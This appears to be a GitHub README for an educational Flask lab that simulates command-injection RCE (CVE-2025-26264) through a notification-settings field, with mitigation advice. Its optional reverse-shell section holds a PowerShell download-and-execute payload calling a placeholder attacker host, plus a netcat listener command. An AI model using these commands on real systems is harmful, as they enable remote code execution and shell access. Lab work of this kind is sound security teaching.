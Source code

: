 # 🚨 CVE-2025-26264 - Simulated Remote Code Execution via Notification Settings (Flask Demo)

This project demonstrates a simulated version of **CVE-2025-26264**, a real-world authenticated Remote Code Execution (RCE) vulnerability found in **GeoVision GV-ASWeb ≤ v6.1.2.0**.

In this demo, an attacker abuses a poorly handled "notification settings" input field to execute arbitrary PowerShell commands on the server.

---

## 🛠️ Technologies

- Python 3
- Flask
- PowerShell (assumed Windows host)

---

## 📁 Files

- `server.py` — Vulnerable Flask server
- `exploit.py` — Exploit script to trigger the vulnerability
- `README.md` — This documentation

---

## 🚀 Running the Vulnerable Server

1. Install dependencies:
   ```bash
   pip install flask
   ```

2. Start the vulnerable Flask app:
   ```bash
   python server.py
   ```

   Server runs at: `http://localhost:8080`

---

## 💥 Exploit

Use the `exploit.py` script to send a malicious PowerShell command:

```bash
python exploit.py
```

This script sends a POST request to the vulnerable `/notification` endpoint with a `message` field like:

```powershell
Start-Process notepad.exe
```

On a real system, this would launch Notepad on the server.

---

## 🧪 Reverse Shell Example (Optional)

If testing locally and safely, modify the payload in `exploit.py` like so:

```python
payload = 'powershell -NoP -NonI -W Hidden -Command "IEX(New-Object Net.WebClient).DownloadString('http://YOUR_IP:8000/shell.ps1')"'
```

Then:

1. Create `shell.ps1` with reverse shell code.
2. Host it:
   ```bash
   python3 -m http.server 8000
   ```
3. Start listener:
   ```bash
   nc -lvnp 4444
   ```

---

## 🛡️ Mitigation

- **Never execute user input** without strict validation or sandboxing.
- **Avoid `os.system()`** or shell-invoking functions with dynamic input.
- **Use allowlists** for commands if needed.
- **Patch vulnerable systems** — in the real CVE, upgrading GV-ASWeb to ≥ v6.2.0 mitigates the issue.

---

## 📚 Credits

- Inspired by [CVE-2025-26264](https://github.com/DRAGOWN/CVE-2025-26264)
- This is a **simulated environment** meant for **educational and ethical testing purposes only**.

---

## ⚠️ Disclaimer

This project is intended **only for ethical hacking education, penetration testing practice, and responsible disclosure research**. Do not use this code against systems you do not own or have explicit permission to test.
